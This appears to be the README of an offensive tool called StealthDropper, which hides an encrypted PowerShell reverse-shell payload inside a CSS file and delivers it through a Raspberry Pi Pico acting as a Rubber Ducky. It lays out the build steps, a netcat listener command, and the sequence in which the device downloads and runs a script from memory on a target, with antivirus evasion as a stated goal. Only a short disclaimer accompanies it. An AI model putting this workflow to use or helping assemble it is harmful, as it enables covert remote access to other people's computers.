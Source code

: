 # StealthDropper

Fully automated Red Team dropper project that disguises PowerShell payloads as CSS and supports HID delivery via Raspberry Pi Pico 2 W (Rubber Ducky).

## 📁 Project Structure
```
stealth-dropper/
├── assets/                     # Static web files
│   ├── favicon.png
│   └── style.css              # Final CSS file with base64-encoded payload
│
├── payloads/
│   ├── reverse_raw.ps1        # Your reverse shell (to be encrypted)
│   ├── win11_stage1.ps1       # Stage 1 with inserted HEX (generated)
│   └── templates/
│       └── win11_stage1.template.ps1  # Template with <HEX_REPLACE>
│
├── tools/                     # Tooling and scripts
│   ├── build_and_run.sh       # 🧠 Master build script
│   ├── encode_payload.py      # XOR → HEX encoder
│   └── embed_payload.py       # base64 embedder to CSS
│
├── decrypt.html               # JS dropper page
├── duckyscript.txt            # Autogenerated Rubber Ducky HID script
├── favicon.ico
├── server.py                  # HTTP server
└── README.md
```

---

## 🚀 How to Use

### 1. Requirements:
- Python 3
- Pico 2 W (if using HID delivery)

### 2. Run the main script:
```bash
bash tools/build_and_run.sh
```

This script will:
- Let you select your IP address
- Ask for the reverse shell port (default: 4444)
- Insert the IP/port into `reverse_raw.ps1`
- XOR + HEX encrypt the payload
- Inject it into the stage 1 template
- Base64 encode the full result into `style.css`
- Generate `duckyscript.txt` with correct IP
- Launch an HTTP server and a `tmux` session running `nc -lvnp $PORT`

---

## 🐤 Rubber Ducky / Pico 2 W

1. Mount Pico as `CIRCUITPY`
2. Copy `duckyscript.txt` → `code.txt`
3. Plug into target machine
4. Script will:
   - Open browser to `decrypt.html`
   - Download `update_cache.ps1`
   - Execute it from memory via PowerShell

---

## 🎯 Purpose
- Gain reverse shell access from Windows target
- Avoid antivirus via XOR + ScriptBlock execution
- Automate all stages from payload prep to server delivery

---

## 🔧 Helpful Commands

To re-attach to the `tmux` session:
```bash
tmux attach -t stealth_listener
```

To check server status:
```bash
curl http://<your-ip>:8080/style.css
```

---

## 🔒 Legal & Safety Notice
This tool is for educational and authorized penetration testing only.  
Do NOT use against systems you do not own or have permission to test.

---

🔥 Happy hacking, and stay stealthy.
